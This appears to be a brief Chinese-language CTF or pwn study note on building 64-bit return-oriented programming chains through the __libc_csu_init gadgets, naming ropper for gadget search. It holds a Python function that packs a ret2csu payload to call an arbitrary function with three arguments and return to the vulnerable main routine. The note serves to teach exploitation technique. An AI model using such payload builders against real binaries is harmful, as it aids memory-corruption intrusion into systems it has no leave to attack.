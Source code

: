 ## rop
主要是64bit的

## func

64bit构造rop，利用libc_cus_init处相关rop。

ropper查找较全面


```Python
def prod_rop3(func_addr, arg1, arg2, arg3):
    payload = p64(rop64_step1_addr)
    payload += p64(0)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)   # r12
    payload += p64(arg1)        # r13
    payload += p64(arg2)        # r14
    payload += p64(arg3)        # r15
    payload += p64(rop64_step2_addr)    # ret to step2
    payload += 'r'*rop_pad_size         # padding
    payload += p64(main_vuln_addr)      # return to main vuln
    return payload

```

